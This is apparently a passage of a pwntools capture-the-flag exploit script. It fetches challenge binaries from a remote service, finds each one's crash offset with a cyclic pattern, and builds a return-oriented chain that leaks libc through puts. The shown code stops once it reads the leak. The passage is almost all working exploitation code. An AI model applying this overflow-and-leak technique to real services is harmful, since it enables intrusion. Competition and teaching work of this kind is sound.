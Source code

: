 ```py

def start(argv=[], *a, **kw):
    return remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

problem = 0
io = start()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

while problem < 9:
    io.recvuntil("b")
    raw = io.recvuntil(": \n")
    raw = raw[1:raw.rfind(b"'")]
    b = codecs.escape_decode(raw)[0]
    f = open('bin', 'wb')
    f.write(b)
    f.close()

    exe = context.binary = ELF('bin')

    p = process('./bin')

    base = 0x400000

    main = exe.symbols['main']
    puts_plt = exe.plt['puts']
    puts_got = exe.got['puts']
    p.success("main address: {}".format(hex(main)))
    p.success("puts_plt address: {}".format(hex(puts_plt)))
    p.success("puts_got address: {}".format(hex(puts_got)))

    p.recvuntil(": \n")
    p.sendline(cyclic(0x80, n=8))
    p.recvall()

    core = p.corefile

    fault = cyclic_find(core.fault_addr, n=8)

    rop = ROP(exe)
    pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
    ret = rop.find_gadget(['ret'])[0]

    leak_payload = flat({
        fault: [
            pop_rdi,
            puts_got,
            puts_plt,
            main,
            ]
        })

    io.sendline(leak_payload)

    io.recvuntil(('Got: \n', 'Hello, \n'))
    io.recvline()
    libc_leak = io.recvline()[:-1]
```